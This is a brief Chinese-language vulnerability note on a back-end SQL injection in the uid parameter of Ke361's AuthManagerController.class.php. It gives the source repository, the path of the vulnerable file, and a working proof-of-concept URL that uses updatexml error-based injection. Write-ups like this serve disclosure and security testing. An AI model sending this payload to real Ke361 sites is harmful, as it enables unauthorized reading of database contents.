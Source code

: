 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![image-20220518153054883](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181530959.png)

```
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153112030](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181531098.png)